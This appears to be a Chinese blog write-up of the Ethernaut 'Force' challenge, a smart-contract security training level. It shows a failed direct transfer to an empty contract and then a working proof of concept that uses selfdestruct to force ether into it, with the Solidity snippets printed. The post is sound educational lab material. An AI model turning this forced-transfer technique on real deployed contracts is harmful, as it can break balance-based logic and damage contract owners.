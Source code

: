 ```yaml
---
title: '合约自毁'
date: 2022-12-10 13:42:15
tags:
- '区块链技术'
- '智能合约安全'
categories:
- '智能合约安全'
---
```


<!-- more -->

::: tip

目前来看最全面的智能合约安全靶场:+1:

https://ethernaut.openzeppelin.com/ 

浏览器控制台 help()指令

![help](./assets/1670479273112.png)

:::

#### 第七关Force  思路与POC

##### 目标: 想办法增加合约余额

#### 先看代码:

##### 好吧 没有代码 :six:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

#### 问题在于一个空合约该如何接收转账:question:

##### 先直接转账试一试

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract ForceTranfer {

   receive() external payable {
       
   }
  //call函数转账失败 目标合约是空合约 没有payable标识的方法
    function transferTo(address payable dest ) public{
        
        dest.call{value : address(this).balance}("");
    }

```

##### 没有用 交易虽然成功但是转账金额被revert

![info](./assets/1670659062482.png)

#### 通过查阅文档发现如果将一个合约自毁的话是会将余额转账到备份合约上的 ,而且`selfdestruct`函数是直接操作字节码的.

#### :link:https://docs.soliditylang.org/en/v0.8.17/introduction-to-smart-contracts.html?highlight=self#deactivate-and-self-destruct

##### 试一试:

```solidity
 function selfDestroy(address payable addr ) public {
    
    selfdestruct(addr);
  }
```

##### 成功:+1:

![info2](./assets/1670659498827.png)

![info3](./assets/1670659599586.png)